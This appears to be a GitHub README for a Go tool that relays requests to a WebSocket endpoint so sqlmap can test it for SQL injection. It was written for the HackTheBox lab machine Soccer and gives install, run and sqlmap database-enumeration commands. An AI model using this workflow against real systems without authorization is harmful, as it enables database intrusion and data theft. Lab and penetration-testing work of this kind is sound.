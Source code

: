 # WebSocket Sql Injection

I came accross a HackTheBox machine called [Soccer](https://app.hackthebox.com/machines/Soccer) which is pretty interesting in a point of WebSocket SQL Injection, Did some reaseach and found a blog from [salmonsec](https://salmonsec.com/cheatsheet/web_sockets) and it's written in Python2, as we know Python2 is deprecated. I used golang and made this to easier my work. The specialty of my tool it can take multiple parameter eg: http://localhost:8000/?key1=value1&key2=value2 

#### Installation

```bash
go install github.com/rudSarkar/websocket_sqli@latest
```

#### Server

Copy the WebSocket URL and use the `-ws` flag to pass the URL of WebSocket it will up and running then follow the SQLMAP

```bash
websocket_sqli -ws 'ws://soc-player.soccer.htb:9091/'
```

#### SQLMAP

```bash
sqlmap -u "http://127.0.0.1:8000/?id=73456" -p id --random-agent --dbs
```

